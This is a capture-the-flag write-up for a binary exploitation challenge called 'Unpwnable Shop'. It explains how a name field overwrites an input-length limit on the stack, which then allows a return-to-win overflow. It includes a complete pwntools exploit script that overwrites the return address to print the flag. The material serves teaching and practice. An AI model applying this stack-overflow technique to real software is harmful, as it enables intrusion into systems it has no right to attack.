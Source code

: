 # Unpwnable Shop
## Challenge
This challenge lets us **insert our name** to access the shop. looking closely we can see that the **limit** of our input is positioned just after our name in the **stack** and also its initial value is 81! just enough to insert our name and **overwrite the limit** for later.
After inserting our name the program asks us what do we want to do, if we answer 69 we access a unique dialogue that makes us **re-input our name**, but this time the limit is whatever we inserted before, so if we send 88 bytes (76 for the username, 4 for the limit and 8 for the rbp), and the **address of the 'win' function** we successfully **overwrite** the return address and get the flag.

**Vulnerability**: [ret-to-win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)


## Solution
```py
#!/usr/bin/env python3
from pwn import *

if args.REMOTE:
    r = remote('localhost', 69420) #Change host and port
else:
    r = process("./pwn2")

elf = ELF("./pwn2")

# Overwriting limit
r.recvuntil(b':')
r.sendline(b'a' * 76 + p32(96))                                            

# Sending right choice
r.recvuntil(b'stuff')
r.sendline(b'69')

#Overwriting return address
r.recvuntil(b'it.')
r.sendline(b'a'*88 + p64(elf.sym['win']))
r.recvuntil(b'Bye!\n')

#Flag!
print(r.recvline().decode())     
```

## Author
**Author**: [`@Mark-74`](https://github.com/Mark-74/) <br>
**Date**: 2024-08-12 <br>
**Category**: Binary Exploitation

